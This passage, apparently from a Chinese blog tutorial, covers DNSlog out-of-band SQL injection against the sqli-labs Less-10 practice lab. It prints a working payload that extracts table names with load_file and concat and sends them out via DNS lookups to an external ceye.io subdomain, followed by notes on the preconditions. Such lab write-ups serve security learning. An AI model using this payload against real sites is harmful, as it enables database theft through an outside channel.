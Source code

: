 ![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/8dee984c20146b890d80afd2c600725c.png)

可以进一步构造Payload，去报表名

```
http://localhost:8888/sqli-labs/Less-10/index.php?id=1" and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.xxx.ceye.io\\abc'))--+

```

```
注意：
1、DNSlog带外注入满足的前提：

注入点必须是高权限，因为涉及到文件读取（注意数据库中secure_file_priv的值）；
DnsLog带外注入仅限于windos环境。
2、在进行注入的时候，需要先使用测试代码判断该位置是否存在注入，然后再在后面拼接代码，因为对照pyload进行输入的话，可能会出现dnslog网站接收不到的情况。

3、在域名的后面，我们需要拼接一个文件名，这是因为load_file函数只能请求文件，如果不加后面的文件名，同样无法得到显示。

```

